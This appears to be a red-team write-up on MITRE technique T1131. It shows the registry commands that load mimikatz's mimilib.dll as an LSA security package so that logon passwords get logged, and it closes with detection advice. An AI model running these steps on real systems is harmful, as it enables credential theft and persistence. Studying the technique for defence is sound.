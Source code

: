 ```yaml
---
description: Persistence
---
```


# T1131: Authentication Packages

This technique abuses Windows Authentication Packages and injects a DLL into the LSA process. For this, mimikatz library mimilib.dll will be used. It will serve as a keylogger and save logon passwords next time someone will attempt a logon to the host.

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Check which LSA Security Packages are already on the list:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Add mimilb to the Security Support Providers:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```c
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
Value Security Packages exists, overwrite(Yes/No)? y
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` key for changes. Newly added packages should be inspected:

![](../.gitbook/assets/lsa-commandline.png)

The below shows the screens of the Security Packages registry value with the **mimilib** injected and the kiwissp.log file that shows a redacted password that had been logged that we typed in during the logon \(not shown in these screenshots nor the process was described\):

![](../.gitbook/assets/lsa-security-packages.png)

As expected, mimilib.dll can be observed in the list of DLLs loaded by the lsass.exe process. Make a baseline of loaded known good DLLs and monitor for any new DLLs:

![](../.gitbook/assets/lsa-loaded-dll.png)

{% embed data="{\"url\":\"https://github.com/veramine/Detections/wiki/LSA-Packages\",\"type\":\"link\",\"title\":\"veramine/Detections\",\"description\":\"Contribute to Detections development by creating an account on GitHub.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://github.com/fluidicon.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://avatars3.githubusercontent.com/u/26036714?s=400&v=4\",\"width\":136,\"height\":136,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://adsecurity.org/?p=1760\",\"type\":\"link\",\"title\":\"Sneaky Active Directory Persistence \#12: Malicious Security Support Provider \(SSP\) – Active Directory Security\"}" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1131\",\"type\":\"link\",\"title\":\"Authentication Package - ATT&CK for Enterprise\"}" %}


